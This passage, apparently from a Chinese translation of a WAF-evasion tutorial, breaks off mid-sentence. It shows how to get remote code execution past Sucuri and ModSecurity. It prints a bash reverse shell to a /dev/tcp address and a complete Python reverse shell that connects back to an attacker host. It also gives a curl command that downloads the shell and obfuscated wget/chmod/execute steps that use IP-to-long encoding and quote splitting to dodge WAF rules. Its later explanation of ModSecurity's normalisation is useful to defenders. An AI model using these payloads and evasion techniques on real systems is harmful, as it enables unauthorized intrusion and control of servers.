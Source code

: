 最简单的方法（可以被WAF阻止的特殊字符很少）就是使用`bash -i`命令：`bash -i &gt;&amp; /dev/tcp/1.1.1.1/1337 0&gt;&amp;1`，但不幸的是，使用该payload绕过所有规则集太复杂了，这意味着很难使用某些PHP， Perl或Python代码来获取它。Sucuri WAF以此原因阻止了我的尝试

```
检测到混淆的攻击负载
```

完蛋了，不是吗？<br>
我可以尝试使用`curl wget`将python的反向shell上传到目标的可写目录中，而不是直接在易受攻击的参数上执行shell。首先，准备python代码：`vi shell.py`

```
#!/usr/bin/python
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("&lt;my ip address&gt;",2375));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);
```

然后公开一个可以从目标访问的web服务器，像往常一样使用`python -c SimpleHTTPServer`或`php -S`等<br>
然后从目标网站下载shell.py文件，我已经使用了以下语法：

```
curl -v '.../?zzz=&lt;myip&gt;:2375/shell.py+-o+/tmp/shell.py'
```

[![](https://p2.ssl.qhimg.com/t0194c2d0b23df26d2f.png)](https://p2.ssl.qhimg.com/t0194c2d0b23df26d2f.png)<br>[![](https://p5.ssl.qhimg.com/t01f5e7a6f20072cdbf.png)](https://p5.ssl.qhimg.com/t01f5e7a6f20072cdbf.png)<br>
好的，Sucuri WAF并没有阻止这个请求，但通常ModSecurity会阻止<br>
如果你想确保绕过所有的“匹配短语”规则类型，你可以使用<br>`wget + ip-to-long转换 + string串联`<br>
例如

```
.../?zzz=wg'e't 168431108 -P tmp
.../?zzz=c'hm'od 777 -R tmp
.../?zzz=/t'm'p/index.html
```

第一条命令wget用来下载`/tmp/shell`文件。<br>
第二个用于chmod使其可执行<br>
第三个执行它。<br>[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01108fab1e9ed9f137.gif)



## 绕过ModSecurity和OWASP核心规则集

可能你认为，如果waf检测级别很低，你可以绕过OWASP核心规则集，就像我们在第一篇文章中看到的那样。<br>
但这样基本行不通。因为有两个东西叫做`normalizePath`和`cmdLine`。<br>
在ModSecurity中，它们被称为“转换函数”，用于在输入数据用于匹配之前修改输入数据（例如，运算符执行）。<br>
ModSecurity将创建数据副本，对其进行转换，然后根据结果运行运算符。<br>
normalizePath：从输入字符串中删除多个斜杠，目录自引用和目录反引用（输入开始时除外）。<br>
cmdLine：将打破所有渗透者的梦想，该转换函数通过规范化参数值并触发所有规则，例如`/e't'c/pa'ss'wd`，被规范化为`/etc/passwd`，然后再进行规则触发。<br>
它做了很多事情！比如<br>
删除所有反斜杠``<br>
删除所有双引号`"`<br>
删除所有的单引号`'`<br>
删除所有插入符号`^`<br>
在斜杠`/`前删除空格<br>
在开括号`(`之前删除空格<br>
将所有逗号`,`和分号`;`替换为空格<br>
将所有多个空格（包括制表符，换行符等）替换为一个空格<br>
将所有字符转换为小写<br>
由于cmdLine转换函数的原因，规则932160阻止了所有尝试利用带有级联字符串的RCE的尝试：
